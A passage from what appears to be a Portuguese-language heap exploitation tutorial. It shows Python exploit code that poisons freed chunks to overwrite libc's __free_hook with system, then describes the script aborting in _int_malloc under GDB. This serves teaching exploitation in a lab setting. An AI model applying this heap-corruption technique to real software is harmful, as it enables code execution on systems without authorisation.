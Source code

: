 ```py
free(chunk_B)
free(chunk_A)

# criando um chunk fake que aponta para o "free_hook()"
dup = malloc(0x28, p64(libc.sym.__free_hook - 16))

# requisitando o chunk B
malloc(0x28, b"A")

# requisitando o chunk A com "fd" para "free_hook()"
malloc(0x28, b"A")

# sobrescrevendo "free_hook()"
malloc(0x28, p64(libc.sym.system))

#=========================================#
```
Agora podemos executar o script atrelado ao GDB.

![Erro na execução](/img/papers/heap_p1/paper_heap1_126.png)

Aparentemente algo deu errado e recebemos a chamada para a função `abort()` na execução.  
Alterando para o frame `_int_malloc()` e visualizando o código, podemos verificar o mesmo erro que já vimos na situação passada.

![Código que aciona o erro](/img/papers/heap_p1/paper_heap1_127.png)
